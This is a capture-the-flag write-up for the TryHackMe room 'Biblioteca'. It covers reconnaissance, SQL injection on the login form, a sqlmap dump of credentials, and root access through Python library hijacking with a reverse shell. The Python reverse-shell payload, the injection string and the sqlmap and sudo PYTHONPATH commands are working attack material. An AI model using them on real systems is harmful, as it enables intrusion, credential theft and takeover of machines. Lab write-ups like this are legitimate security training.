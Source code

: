 # TryHackMe Biblioteca Write-up

Below is my write-up for the TryHackMe room [Biblioteca](https://tryhackme.com/room/biblioteca).

We start up the machine, and we can start with a Nmap scan.

`nmap -sC -sV <IP Address>`

![NmapScanBiblio](/THM/Images/Biblioteca/thmbiblionmap.jpg)

The results provide us with two open ports.

- SSH port 22
- HTTP port 8000

We find a login page on the landing. The first thing to do is find any other folders or pages we can access. For that, we can enumerate using `gobuster`.

![BiblioTHMLandin](/THM/Images/Biblioteca/thmbibliohttplanding.jpg)

These are the results from `gobuster` enumeration. The command used was.

`gobuster dir -u http://<IP ADDRESS> -w /usr/share/wordlists/dirb/common.txt`

![BiblioGobuster](/THM/Images/Biblioteca/thmbibliogobuster.jpg)

We can create a user. Once we log in, it just takes us to an index page with only a logout option.

If we try `1' or '1'='1';-- -` , we can see that the login form is vulnerable to SQL injection.

We can then use `sqlmap` to extract table data.

`sqlmap -u http://<IP ADDRESS>:8000/login --data='username=''&password=''' --current-user --dump`

Breaking down the command 

```bash 
-u http://<IP ADDRESS>:8000/login  # the flag refers to the target URL
--data= 'username=''&password=''' # Data string to be sent through POST (e.g. "id=1")
--current-user --dump # --current-user Retrieve DBMS current user --dump DUMP DMBS Database table entries.
```

`sqlmap` provides us with the following table.

![BiblioSQLMAPresults](/THM/Images/Biblioteca/thmbibliosqlmap.jpg)

We found the table with the users. We can now try the password found with the username to SSH into the machine. 

Excellent, we are in with the password found. We can see that the user has limited surface points to privilege escalation. Let's see what other users have to know if we can move sideways. We can see two others can have access. Let us focus on hazel. 

![BiblioSmokeyAccess](/THM/Images/Biblioteca/thmbibliosmokey.jpg)

We can either break the password by guessing or using a hydra attack on the ssh port now that we know the username and password.

Great, we now have our first flag. Let's look at what hazel can run. 

![BibliootheruserAccess](/THM/Images/Biblioteca/thmbiblioaccesstoroot.jpg)

Hazel can run a specific python file as `sudo` without requiring a password. If we look at the python file, we can see it is a script that takes the user's input and then provides a hash of the input in various formats. The part that interests us is that it calls for a specific library `hashlib`. So we can hijack the python library by making one on the local folder. However, we are unable to create files in our home directory.

So we will need to redirect the python path. In this instance, we will copy the  `hashlib.py` file in the `/tmp` folder. So we can modify it.

Since we are running it as `sudo`. We will add a reverse shell at the start of the file. 

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<YOUR IP>",<LISTENING PORT>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

If we set up a listener on our machine, we can then listen out for the reverse shell. We then can run the file by specifying the python path.

`sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`

Great that gives us a reverse shell as root and we can find the last flag.

![Bibliotecaroot](/THM/Images/Biblioteca/thmlastflag.jpg)

Overall, it was a good machine to practice the basics. 